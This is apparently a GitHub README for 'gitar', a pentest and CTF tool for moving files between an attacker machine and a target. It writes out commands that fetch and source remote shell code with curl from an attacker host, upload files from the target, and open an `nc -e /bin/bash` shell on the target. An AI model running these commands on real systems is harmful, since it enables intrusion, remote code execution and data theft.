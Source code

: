 <div align=center>
<h1>gitar</h1>
<img src=https://github.com/ariary/gitar/blob/main/img/gitar-logo.png width=150>
	
<strong>📡 A more sophisticated python HTTP server sibling <br>🎸 with even simpler interactions for file exchange (Pentest/CTF) </strong>
<br>
</div>

|![demo](https://github.com/ariary/gitar/blob/main/img/gitar-screen.png)|
|:---:|
|**~>** Have the  ***simplest possible shortcuts*** to upload/download file to/from the target machine<br>**~>** ***No installation needed*** on target machine<br>**~>** ***Fast and simple*** deployment|



## TL;DR *- and listen music*

On my target machine:
 - **Download a file** from my attacker machine: `pull [file]`
 - **Download a directory** from my attacker machine: `pullr [directory]`
 - **Upload a file** to my attacker machine: `push [file]`
 - **Upload a directory** to my attacker machine: `pushr [directory]`

*Before be able to use these shortcut you have to [set up](#set-up) both machines. Once again, the aim is to made it as simple as possible*

## Set up


### 🎸 Launch `gitar` server 
 
On **Attacker machine**: 
```shell
gitar
```

On **Target machine**:

```shell
# Get shortcuts and source them. The one-liner corresponding is by default copy on clipboard. 
# It is also provided by step 1. (in gitar output):
source <(curl -s http://[attacker_ip:port]/alias)
```

**And that's all, you can now `push` or `pull` file [🎶](#tldr---and-listen-music)**

 <sup>[`with 💥`](https://github.com/ariary/bang/blob/main/EXAMPLES.md#share-files)</sup>

### 🐋 Secure launch of `gitar` server

This is basicaly the same as launching `gitar` server. But as we expose our http server we become the prey. Hence we must harden a bit the server. To do this we launch `gitar` inside a container and use HTTPS.

The following steps expose files of current directory. Files uploaded by remote are written inside current directory also.

On **Attacker machine**: 
```shell
docker run -it --rm --cap-drop=all --cap-add=dac_override --user $(id -u):$(id -g)  -v "${PWD}:/gitar/exchange" ariary/gitar
```

**You can now `push`or `pull` file being more safe [🎶](#tldr---and-listen-music)**



<sup>[`with 💥`](https://github.com/ariary/bang/blob/main/EXAMPLES.md#share-files-safely)</sup>

### Pre-requisites

* HTTP Network connectivity between attacker & target machines
* On target machine: `curl` 
	* `tar` for directory upload 
* On attacker machine: 
	* `xclip` to copy command on clipboard (not required)
	* `tree`: to expose it trough server (not required)
	* `dig`: to automatically find extarnal IP (not required)

The aim is to keep "target requirements" as fit as possible. Attacker machine requirements are not a big deal as we have plenty control over it and time to configure it.

## Install

```shell
go install github.com/ariary/gitar@latest
```

## Bonus

### Bidirectional exchange

You can also use `push` and `pull` shortcuts from attacker machine, after shortcuts have been loaded on target. It does not require addtional requirements on both machines. To do so it is recommended to load `alias` (put them in your `~/[SHELL]rc`) and launch gitar as follow:
```shell
gtrclean
gitar -bidi
```

On another attacker terminal window you can now push file to remote:
```shell
gtrbidi #to load gitar shortcut
push [FILENAME]

#[...] when your exchange is done
gtrclean 
```

***Notes:*** It will push files on remote within the directory where the `source` command occurs

#### 🐋 Container and bidirectional exchange
```shell
BIDIR=$(mktemp -d);docker run -it --rm --cap-drop=all --cap-add=dac_override --net host --user $(id -u):$(id -g)  -v "${PWD}:/gitar/exchange" -v "$BIDIR:$BIDIR" ariary/gitar -bidi -bd $BIDIR
```

Then on attacker machine load shortcut:
```shell
gtrbidi.docker
```

#### Limits
* Only work for file (does not work for `pullr` and `pushr`)
* Increase considerably the number of http requests on target

### Load shortcut directly in your reverse shell

**~>** *Below are the steps to have shortcuts directly embedded in your `nc` reverse shell*

On **Target machine**:
```shell
# Launch your classic listener
nc -nvlp 4444 -e /bin/bash
```

On **Attacker machine**:

1. Launch `gitar`server : `gitar -e [server_reachable_ip]` *(By default this will copy on clipboard the command to set up gitar exchange, also available in server output)*
2. Connect to the reverse shell + load shortcut within:`nc [VICTIM_IP] 4444` then `[CTRL+V]` 

An alternative is `export CMD=[CTRL+V] && (echo $CMD && cat) | nc [VICTIM_IP] 4444` *(Note: with `cat` you will not benefit of bash completion)*

**And enjoy you revshell [🎶](#tldr---and-listen-music)**


	
	
